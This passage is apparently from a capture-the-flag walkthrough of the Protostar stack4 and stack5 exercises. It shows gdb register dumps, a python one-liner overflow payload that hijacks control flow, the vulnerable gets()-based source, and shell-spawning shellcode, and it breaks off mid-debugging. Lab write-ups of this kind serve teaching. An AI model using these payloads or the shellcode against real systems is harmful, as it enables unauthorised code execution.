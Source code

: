 ```
) at libc-start.c:187
187	libc-start.c: No such file or directory.
	in libc-start.c
(gdb) i r
eax            0xbffffcfb	-1073742597
ecx            0xbffffc70	-1073742736
edx            0xb7fd9334	-1208118476
ebx            0xb7fd7ff4	-1208123404
esp            0xbffffcbc	0xbffffcbc
ebp            0x41414141	0x41414141 <----- overwritten with A's
esi            0x0	0
edi            0x0	0
eip            0xb7eadc03	0xb7eadc03 <__libc_start_main+115>
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51

$ echo `python -c 'print("A"*76 + "\xf4\x83\x04\x08")'` | /opt/protostar/bin/stack4  
code flow successfully changed  
Segmentation fault  
```

## Stack 5

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)  
{
  char buffer[64];

  gets(buffer);
}
```

We can use msfvenom to generate a shellcode or just grab one from exploit-db. We use one by Marco Ivaldi. 

``` 
char sc[] = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80"
"\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80"
"\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
```

```
root@kali:~/test/protostar# python -c 'print("A"*76 + "B"*4 + "C"*120)'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
$ gdb -q stack5 
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) c
The program is not being run.
(gdb) r
Starting program: /opt/protostar/bin/stack5 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCCC
```